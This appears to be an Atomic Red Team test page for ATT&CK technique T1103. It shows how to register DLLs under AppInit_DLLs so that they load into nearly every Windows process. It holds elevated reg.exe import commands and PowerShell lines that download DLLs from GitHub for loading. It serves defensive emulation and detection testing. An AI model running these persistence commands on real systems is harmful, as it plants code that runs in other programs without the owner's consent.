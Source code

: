 # T1103 - AppInit DLLs

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1103)

<blockquote>Dynamic-link libraries (DLLs) that are specified in the AppInit_DLLs value in the Registry keys <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows</code> or <code>HKEY_LOCAL_MACHINE\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows</code> are loaded by user32.dll into every process that loads user32.dll. In practice this is nearly every program, since user32.dll is a very common library. (Citation: Endgame Process Injection July 2017) Similar to [Process Injection](https://attack.mitre.org/techniques/T1055), these values can be abused to obtain persistence and privilege escalation by causing a malicious DLL to be loaded and run in the context of separate processes on the computer. (Citation: AppInit Registry)

The AppInit DLL functionality is disabled in Windows 8 and later versions when secure boot is enabled. (Citation:
AppInit Secure Boot)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Install AppInit Shim](#atomic-test-1---install-appinit-shim)

<br/>

## Atomic Test #1 - Install AppInit Shim

AppInit_DLLs is a mechanism that allows an arbitrary list of DLLs to be loaded into each user mode process on the
system. Upon succesfully execution,
you will see the message "The operation completed successfully." Each time the DLL is loaded, you will see a message box
with a message of "Install AppInit Shim DLL was called!" appear.
This will happen regular as your computer starts up various applications and may in fact drive you crazy. A reliable way
to make the message box appear and verify the
AppInit Dlls are loading is to start the notepad application. Be sure to run the cleanup commands afterwards so you
don't keep getting message boxes showing up.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| registry_file | Windows Registry File | Path | PathToAtomicsFolder&#92;T1103&#92;src&#92;T1103.reg|
| registry_cleanup_file | Windows Registry File | Path | PathToAtomicsFolder&#92;T1103&#92;src&#92;T1103-cleanup.reg|

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
reg.exe import #{registry_file}
```

#### Cleanup Commands:

```cmd
reg.exe import #{registry_cleanup_file}
```

#### Dependencies:  Run with `powershell`!

##### Description: Reg files must exist on disk at specified locations (#{registry_file} and #{registry_cleanup_file})

##### Check Prereq Commands:

```powershell
if ((Test-Path #{registry_file}) -and (Test-Path #{registry_cleanup_file})) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path #{registry_file}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1103/src/T1103.reg" -OutFile "#{registry_file}"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1103/src/T1103-cleanup.reg" -OutFile "#{registry_cleanup_file}"
```

##### Description: DLL's must exist in the C:\Tools directory (T1103.dll and T1103x86.dll)

##### Check Prereq Commands:

```powershell
if ((Test-Path c:\Tools\T1103.dll) -and (Test-Path c:\Tools\T1103x86.dll)) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path #{registry_file}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1103/bin/T1103.dll" -OutFile C:\Tools\T1103.dll
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1103/bin/T1103x86.dll" -OutFile C:\Tools\T1103x86.dll
```

<br/>
